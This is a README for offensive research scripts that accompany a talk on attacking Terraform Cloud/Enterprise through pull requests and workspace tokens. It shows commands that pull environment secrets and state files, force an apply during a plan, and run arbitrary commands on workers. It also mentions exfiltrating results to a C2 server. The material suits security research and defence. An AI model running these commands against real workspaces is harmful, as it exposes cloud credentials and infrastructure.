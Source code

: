 This repository contains scripts to demonstrate the vulnerabilities shown in our associated talk: [Attacking and Defending Infrastructure with Terraform: How we got admin across cloud environments](http://www.google.com) (ToDo: Add link).

There are two scenarios where you can use these scripts:
* When you don't have access to TFC/TFE, or you don't have a token, but **you can create a PR** to a github repository linked to TFC/TFE and speculative plans are run automatically.
* When you can **have access to a Terraform Cloud workspace** and you have a valid token to do so.


## Scenario 1: You can create a PR in a VCS linked with TFC/TFE 
For this scenario use the script: **PR_attack.py**.

Note: You still needs access to TFC in order to read the output of the attacks. But they could also execute arbitrary commands and exfiltrate the results to a C2 they control.

### Exfiltrate secrets
Access the secrets from the environment variables.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git" 
    --folder "dev" 
    --get_envs
```
Demo

![Demo 1](demos/demo1.gif)

### Retrieve the state file
Get the state file for the current workspace.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git"
    --folder "dev"
    --get_state_file
```

### Retrieve the state file for a different workspace
Get the state file for a different workspace in the same organization.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git" 
    --folder "dev" 
    --get_state_file_from_workspace "website_prod"
```
Demo

![Demo 2](demos/demo2.gif)


### Apply on plan
It performs an apply on plan using a tf file as an input.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git" 
    --folder "dev" 
    --apply_on_plan "templates/s3_bucket.tf"
```
Demo

![Demo 3](demos/demo3.gif)


### Execute arbitrary command
Execute an arbitrary command in the TF worker.
```sh
python3 PR_attack.py 
    --repo "git@github.com:CryptoExchangeCo/website.git" 
    --folder "dev" 
    --exec_command "id;env;hostname"
```

## Scenario 2: Access to TFC/TFE
For this scenario use the script: **TF_attack.py**.
    
The usage is very similar to the previous scenario. To retrieving secrets from environment variables you will run:
```sh
python3 TF_attack.py 
    --hostname "app.terraform.io" 
    --organization "CryptoExchangeCo"
    --workspace "website_dev"
    --get_envs
```
